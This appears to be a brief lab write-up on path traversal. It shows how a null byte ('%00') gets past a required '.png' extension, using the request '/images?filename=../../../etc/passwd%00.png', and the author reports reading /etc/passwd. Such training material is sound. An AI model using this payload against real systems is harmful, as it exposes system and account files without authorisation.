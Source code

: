 If an application requires that the user-supplied filename must end with an expected file extension, such as `.png`, then it might be possible to use a null byte to effectively terminate the file path before the required extension. For example:

`filename=../../../etc/passwd%00.png`

## Challenge

--> This lab must require the `.png` extension at the end of filename so we can bypass it with the null character `%00` so i used this payload :

```bash
/images?filename=../../../etc/passwd%00.png
```

--> And i got the conent of `/etc/passwd` file !

![](Attachments/Pastedimage20220122123013.png)
